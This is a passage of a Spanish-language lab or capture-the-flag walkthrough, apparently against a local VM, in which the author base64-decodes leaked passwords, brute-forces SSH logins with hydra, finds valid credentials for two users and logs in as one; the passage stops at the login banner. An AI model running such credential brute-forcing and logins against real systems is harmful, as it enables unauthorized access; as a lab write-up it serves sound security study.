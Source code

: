 Vamos a poner los usuarios en un archivo

```bash
❯ /bin/cat users
smith
lucas
travis
dexter
meyer
```

Ahora vamos a `decodear` las cadenas para ver las contraseñas y metarlas a un archivo

```bash
❯ for password in c3VSSkFkR3dMcDhkeTNyRg== N1p3VjRxdGc0MmNtVVhHWA== WDdNUWtQM1cyOWZld0hkQw== REpjZVZ5OThXMjhZN3dMZw== Y3FObkJXQ0J5UzJEdUpTeQ==; do echo $password | base64 -d; echo; done | tee passwords
suRJAdGwLp8dy3rF
7ZwV4qtg42cmUXGX
X7MQkP3W29fewHdC
DJceVy98W28Y7wLg
cqNnBWCByS2DuJSy
❯ ls
 databases.yml   passwords   users
```

```bash
❯ /bin/cat passwords
suRJAdGwLp8dy3rF
7ZwV4qtg42cmUXGX
X7MQkP3W29fewHdC
DJceVy98W28Y7wLg
cqNnBWCByS2DuJSy
```

Bueno tenemos usuarios y contraseñas podemos usar la herramienta `hydra` y vemos que hay 2 usuarios con que pueden conectarse por `ssh`

```bash
❯ hydra -L users -P passwords 192.168.100.31 ssh -t 4
Hydra v9.1 (c) 2020 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2023-02-22 16:21:54
[DATA] max 4 tasks per 1 server, overall 4 tasks, 25 login tries (l:5/p:5), ~7 tries per task
[DATA] attacking ssh://192.168.100.31:22/
[22][ssh] host: 192.168.100.31   login: travis   password: DJceVy98W28Y7wLg
[22][ssh] host: 192.168.100.31   login: dexter   password: 7ZwV4qtg42cmUXGX
1 of 1 target successfully completed, 2 valid passwords found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2023-02-22 16:22:09
```

Vamos a conectarnos como `travis:DJceVy98W28Y7wLg` 

```bash
❯ ssh travis@192.168.100.31
The authenticity of host '192.168.100.31 (192.168.100.31)' can't be established.
ECDSA key fingerprint is SHA256:id07REjHpxUg3LJ79297o4+hNX8MGbZneoBJ/AUvWWc.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '192.168.100.31' (ECDSA) to the list of known hosts.
travis@192.168.100.31's password: 
Linux debian 5.10.0-8-amd64 #1 SMP Debian 5.10.46-5 (2021-09-23) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
```